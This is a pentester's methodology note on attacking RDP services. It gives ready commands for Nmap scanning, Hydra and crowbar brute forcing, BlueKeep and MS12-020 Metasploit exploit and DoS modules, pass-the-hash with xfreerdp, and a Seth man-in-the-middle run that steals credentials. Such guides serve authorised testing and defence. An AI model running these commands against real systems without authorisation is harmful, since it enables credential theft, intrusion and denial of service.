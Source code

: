 # RDP - Methodology

### Overview

Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft,
which provides a user with a graphical interface to connect to another computer
over a network connection.

The user employs RDP client software for this purpose, while the other computer
must run RDP server software.

RDP authentication mechanism rely on Windows local or Active Directory domain
credentials.

RDP may uses Network Level Authentication (NLA, RDP 6.0 and supported initially
in Windows Vista / Windows Server 2008) which requires the connecting user to
authenticate before a session is established with the server and prevents the
use of resources on the server from the load of the graphical login screen.

### Network scan

Nmap can be used to scan the network for RDP services:

```
nmap -v -p 3389 -A -oA nmap_rdp <RANGE | CIDR>
```

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting with RDP.
Vertical brute forcing is thus not possible.

However, horizontal RDP brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be an
local Administrator (and thus can not connect through PsExec like tool) but can
be a member of the Remote Desktop Users group.

Patator, Hydra or the crowbar Python Script can be used to brute force RDP
access. Patator and crowbar both support NLA (as of December 2018, Patator does
not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Known vulnerabilities

`nmap` can be used to check for the CVE-2012-0002 / MS12-020 exploit.
The `Metasploit`'s `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` module and `rdpscan` can be used to scan for BlueKeep CVE-2019-0708

```
# BlueKeep CVE-2019-0708
msf> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# set RHOSTS file:<PATH>
# set THREADS <THREADS_NUMBER>

rdpscan.exe --file E:\Keolis\1-Wales\1-Pentest\hosts\IP.txt

# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### BlueKeep CVE-2019-0708

An heap corruption can occur in the RDP protocol that allows for arbitrary code
execution at the system level pre-authentication.

Microsoft identified the following Windows versions as vulnerable:
  - Windows XP
  - Windows Vista
  - Windows 7
  - Windows Server 2003
  - Windows Server 2008
  - Windows Server 2008 R2

Windows versions newer than Windows 7 and Windows Server 2012 are not vulnerable.

The `Metasploit` module `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` can be
used to exploit the vulnerability. Note that the exploit is not yet polished.

```
msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

###### CVE-2012-0002 / MS12-020

The CVE-2012-0002 / MS12-020 vulnerability can be used both to realize a Denial
Of Service and remotely execute code on the target.

A metasploit module is available to realize a DoS of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of December 2018, no public proof-of-concept code that results in remote
code execution is available.

### RDP clients

###### Windows

On Windows, the default Microsoft Remote Desktop application
("Connexion Bureau à distance") or the Remote Desktop Manager third party
application can be used as RDP clients.

The Remote Desktop Manager allows for the configuration and storing of
multiples RDP connection (host and authentication information). A Free Edition
is available as well as a commercial grade Enterprise Edition.

###### Linux

On Linux, rdesktop or Remmina (GUI) can be used as RDP clients.

```
rdesktop [options] server[:port]
Remmina
```

### Pass-the-hash over RDP

FreeRDP can be used to authenticate using the hash through RDP against hosts
using the Restricted Admin mode feature.

```
xfreerdp /u:<USERNAME> /d:<DOMAIN> /pth:<HASH> /v:<HOST | IP>
```

### Man-in-the-middle attack

Seth is a tool written in Python and Bash to MitM RDP connections that
attempts to downgrade the connection in order to extract clear text credentials.

Seth can be used regardless if Network Level Authentication (NLA) is enabled
on the RDP host.

Seth will notably:
  - Spoof ARP replies to redirect traffic from the victim host to the attacker
  machine and then to the target RDP server.
  - Configure an iptable rule to reject SYN packet to prevent direct RDP
  authentication.
  - Clone the SSL certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade Kerberos authentication to NTLM.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

Usage:

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If Administrator / SYSTEM privileges could be obtained on a host, RDP sessions
of others users can be hijacked. This could be used to access the
host as the hijacked user through a GUI interface with out knowing its password.  

To hijack RDP session refer to the `[Windows] Post Exploitation` note.
